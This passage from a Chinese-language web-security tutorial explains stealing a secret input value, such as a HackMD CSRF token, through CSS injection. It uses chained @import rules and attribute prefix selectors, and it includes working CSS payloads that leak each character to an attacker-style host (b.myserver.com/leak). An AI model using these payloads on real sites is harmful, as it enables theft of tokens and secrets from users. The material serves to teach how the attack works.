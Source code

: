 當瀏覽器收到 response 的時候，就會先載入上面這一段 CSS，載入完以後符合條件的元素就會發 request 到後端，假設第一個字是 d 好了，接著 server 這時候才回傳 `https://myserver.com/payload?len=2` 的 response，內容為：

``` css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

以此類推，只要不斷重複這些步驟，就可以把所有字元都傳到 server 去，靠的就是 `import` 會先載入已經下載好的 resource，然後去等待還沒下載好的特性。

這邊有一點要特別注意，你會發現我們載入 style 的 domain 是 `myserver.com`，而背景圖片的 domain 是 `b.myserver.com`，這是因為瀏覽器通常對於一個 domain 能同時載入的 request 有數量上的限制，所以如果你全部都是用 `myserver.com` 的話，會發現背景圖片的 request 送不出去，都被 CSS import 給卡住了。

因此需要設置兩個 domain，來避免這種狀況。

除此之外，上面這種方式在 Firefox 是行不通的，因為在 Firefox 上就算第一個的 response 先回來，也不會立刻更新 style，要等所有 request 都回來才會一起更新。解法的話可以參考 Michał Bentkowski（有沒有覺得名字很眼熟？）寫的這一篇：[CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)，把第一步的 import 拿掉，然後每一個字元的 import 都用額外的 style 包著，像這樣：

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

而上面這樣 Chrome 也是沒問題的，所以統一改成上面這樣，就可以同時支援兩種瀏覽器了。

總結一下，只要用 `@import` 這個 CSS 的功能，就可以做到「不重新載入頁面，但可以動態載入新的 style」，進而偷取後面的每一個字元。

## 一次偷一個字元，太慢了吧？

若是想要在現實世界中執行這種攻擊，效率可能要再更好一點。以 HackMD 為例，CSRF token 總共有 36 個字，所以就要發 36 個 request，確實是太多了點。

事實上，我們一次可以偷兩個字元，因為上集有講過除了 prefix selector 以外，也有 suffix selector，所以可以像這樣：
